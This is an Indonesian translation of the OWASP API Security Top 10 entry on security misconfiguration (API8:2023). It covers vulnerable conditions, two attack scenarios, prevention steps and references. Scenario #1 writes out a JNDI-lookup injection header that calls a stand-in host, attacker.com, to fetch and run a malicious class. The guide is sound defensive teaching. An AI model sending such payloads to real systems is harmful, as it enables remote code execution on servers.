 # API8:2023 Miskonfigurasi Keamanan

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Prevalensi **Luas** : Kemungkinan Dideteksi **Mudah** | Teknis **Parah** : Khusus Bisnis |
| Penyerang sering mencoba menemukan kelemahan yang belum diperbaiki, endpoint umum, layanan yang berjalan dengan konfigurasi default yang tidak aman, atau file dan direktori yang tidak terlindungi untuk mendapatkan akses tidak sah atau pengetahuan tentang sistem. Sebagian besar informasi ini adalah pengetahuan publik dan eksploitasi mungkin tersedia. | Kesalahan konfigurasi keamanan dapat terjadi di semua tingkat stack API, mulai dari tingkat jaringan hingga tingkat aplikasi. Alat otomatis tersedia untuk mendeteksi dan mengeksploitasi kesalahan konfigurasi seperti layanan yang tidak perlu atau opsi warisan. | Kesalahan konfigurasi keamanan tidak hanya mengekspos data pengguna yang sensitif, tetapi juga detail sistem yang dapat menyebabkan kompromi penuh server. |

## Apakah API Rentan?

API menjadi rentan bila:

* Tidak ada penguncian keamanan yang sesuai di seluruh bagian stack API,
  atau izin yang dikonfigurasi dengan tidak benar pada layanan cloud
* Tidak ada patch keamanan terbaru, atau sistem sudah kadaluwarsa
* Fitur yang tidak diperlukan diaktifkan (misalnya, verba HTTP, fitur logging)
* Ada ketidaksesuaian dalam cara permintaan masuk diproses oleh server
  dalam rantai server HTTP
* Tidak ada Keamanan Lapisan Transportasi (TLS)
* Direktif keamanan atau kendali cache tidak dikirimkan kepada klien
* Kebijakan Cross-Origin Resource Sharing (CORS) hilang atau tidak diatur dengan tepat
* Pesan kesalahan mencakup stack trace, atau mengekspos informasi sensitif lainnya

## Contoh Skenario Serangan

### Skenario #1

Sebuah server API back-end menjaga catatan akses yang ditulis oleh utilitas logging sumber terbuka pihak ketiga yang populer dengan dukungan ekspansi tempat dan pencarian JNDI
(Java Naming and Directory Interface), keduanya diaktifkan secara default. Untuk
setiap permintaan, entri baru ditulis ke file log dengan pola berikut: `<metode> <versi_api>/<jalur> - <kode_status>`.

Pelaku jahat mengeluarkan permintaan API berikut, yang ditulis ke file log akses:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Karena konfigurasi default yang tidak aman dari utilitas logging dan kebijakan keluar jaringan yang longgar, dalam rangka menulis entri yang sesuai
ke file log akses, sambil memperluas nilai dalam header permintaan `X-Api-Version`, utilitas logging akan mengambil dan menjalankan objek `Malicious.class` dari server yang dikendalikan oleh pelaku jahat.

### Skenario #2

Sebuah situs jaringan sosial menawarkan fitur "Pesan Langsung" yang memungkinkan pengguna
mempertahankan percakapan pribadi. Untuk mengambil pesan baru untuk percakapan tertentu, situs web mengeluarkan permintaan API berikut (interaksi pengguna tidak diperlukan):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Karena tanggapan API tidak menyertakaj header tanggapan HTTP `Cache-Control`, percakapan pribadi akan disimpan dalam cache browser web, memungkinkan
pelaku jahat mengambilnya dari file cache browser dalam sistem file.

## Cara Mencegah

Siklus hidup API harus mencakup:

* Proses pengerasan berulang yang menghasilkan penerapan lingkungan yang terkunci dengan benar dengan cepat dan mudah
* Tugas untuk meninjau dan memperbarui konfigurasi di seluruh stack API. Tinjauan harus mencakup: file orkestrasi, komponen API, dan layanan cloud
  (misalnya, izin bucket S3)
* Proses otomatis untuk terus-menerus menilai efektivitas konfigurasi dan pengaturan di semua lingkungan

Selain itu:

* Pastikan semua komunikasi API dari klien ke server API dan komponen hulu/hilir terjadi melalui saluran komunikasi yang terenkripsi
  (TLS), tanpa memandang apakah itu API internal atau publik.
* Lebih spesifik tentang verba HTTP mana pun yang dapat diakses oleh setiap API: semua verba HTTP lainnya harus dinonaktifkan (misalnya, HEAD).
* API yang diharapkan diakses dari klien berbasis browser (misalnya, front-end WebApp) harus setidaknya:
  * mengimplementasikan kebijakan Cross-Origin Resource Sharing (CORS) yang tepat
  * menyertakan Header Keamanan yang berlaku
* Batasi jenis konten/format data masuk hanya pada yang memenuhi persyaratan bisnis/fungsional.
* Pastikan semua server dalam rantai server HTTP (misalnya, load balancer, reverse and forward proxy, serta server backend) memproses permintaan masuk dengan cara yang seragam untuk menghindari masalah desinkronisasi.
* Jika memungkinkan, tentukan dan tegakkan semua skema muatan respons API, termasuk respons kesalahan, untuk mencegah pengecualian jejak dan informasi berharga lainnya dikirimkan kembali kepada pelaku serangan.

## Referensi

### OWASP

* [Proyek OWASP Secure Headers][1]
* [Pengujian Konfigurasi dan Manajemen Implementasi - Panduan Pengujian Keamanan Web Guide][2]
* [Pengujian Penanganan Kesalahan - Panduan Pengujian Keamanan Web][3]
* [Pengujian Cross Site Request Forgery - Panduan Pengujian Keamanan Web][4]

### Eksternal

* [CWE-2: Kelemahan Keamanan Lingkungan][5]
* [CWE-16: Konfigurasi][6]
* [CWE-209: Pembuatan Pesan Kesalahan yang Mengandung Informasi Sensitif][7]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][8]
* [CWE-388: Penanganan Kesalahan][9]
* [CWE-444: Interpretasi Tidak Konsisten Permintaan HTTP ('HTTP Request/Response Smuggling')][10]
* [CWE-942: Kebijakan Lintas Domain yang Permissif dengan Domain yang Tidak Terpercaya][11]
* [Panduan Keamanan Umum Server][12], NIST
* [Let's Encrypt: Otoritas Sertifikat Gratis, Otomatis, dan Terbuka][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/